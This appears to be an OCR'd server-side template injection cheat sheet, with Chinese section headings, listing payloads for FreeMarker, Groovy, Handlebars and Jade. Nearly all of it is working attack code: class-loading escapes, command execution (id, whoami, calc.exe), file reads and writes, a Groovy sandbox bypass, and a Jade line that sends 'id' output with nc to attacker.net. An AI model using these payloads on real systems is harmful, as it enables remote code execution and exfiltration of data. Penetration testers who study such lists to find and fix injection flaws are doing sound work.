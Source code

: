 	<#assign classloader=article.class.protectionDomain.classLoader>
	<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
	<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
	<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
	${dwf.newInstance(ec,null)("id")}
 #### Groovy
  	https://groovy-lang.org/syntax.html
	${9*9}
	读取和创建文件
	${String x = new File('c:/windows/notepad.exe').text}
	${String x = new File('/path/to/file').getText('UTF-8')}
	${new File("C:\Temp\FileName.txt").createNewFile();}
	HTTP 请求
	${"http://www.google.com".toURL().text}
	${new URL("http://www.google.com").getText()}
	命令执行
	${"calc.exe".exec()}
	${"calc.exe".execute()}
	${this.evaluate("9*9") //(this is a Script class)}
	${new org.codehaus.groovy.runtime.MethodClosure("calc.exe","execute").call()}
	沙盒绕过
	${ @ASTTest(value={assert java.lang.Runtime.getRuntime().exec("whoami")})
	def x }
	或
	${ new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x") }
 #### Handlebars
  	命令执行
	{{#with "s" as |string|}}
	  {{#with "e"}}
	    {{#with split as |conslist|}}
	      {{this.pop}}
	      {{this.push (lookup string.sub "constructor")}}
	      {{this.pop}}
	      {{#with string.split as |codelist|}}
	        {{this.pop}}
	        {{this.push "return require('child_process').execSync('ls -la');"}}
	        {{this.pop}}
	        {{#each conslist}}
	          {{#with (string.sub.apply 0 codelist)}}
	            {{this}}
	          {{/with}}
	        {{/each}}
	      {{/with}}
	    {{/with}}
	  {{/with}}
	{{/with}}
 #### Jade / Codepen
  	- var x = root.process
	- x = x.mainModule.require
	- x = x('child_process')
	= x.exec('id | nc attacker.net 80')
